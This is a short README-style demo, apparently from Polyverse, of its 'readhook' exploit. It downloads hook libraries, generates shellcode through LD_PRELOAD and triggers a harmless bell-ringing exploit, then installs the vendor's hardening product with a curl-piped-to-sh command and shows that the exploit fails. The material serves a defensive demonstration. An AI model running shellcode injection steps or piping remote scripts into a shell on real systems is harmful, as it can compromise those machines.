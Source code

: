 # Readhook3d Demonstration
## Allocate a Centos Environment (with curl and wget)
```
docker run --rm -it --privileged --name centos centos
yum update -y && yum install -y curl wget
```
## Download Readhook3d Components
```
wget -q -O /tmp/basehook.so https://github.com/polyverse/readhook/releases/download/jenkins3d/basehook.so
wget -q -O /tmp/fullhook.so https://github.com/polyverse/readhook/releases/download/jenkins3d/fullhook.so
```
## Generate Shell-code and Perform Exploit
```
export shellCode=$(echo -n xyzzxMAKELOAD | LD_PRELOAD=/tmp/fullhook.so /bin/cat)
echo -n $shellCode | LD_PRELOAD=/tmp/basehook.so /bin/cat
# (Confirm an audible bell)
```
## Install Polyverse and Repeat Exploit
```
curl https://sh.polyverse.io | sh -s install vZ2v3Bo4Kbnwj9pECrLsoGDDo
yum reinstall -y \*
echo -n $shellCode | LD_PRELOAD=/tmp/basehook.so /bin/cat
# (Confirm that there is no audible bell)
```
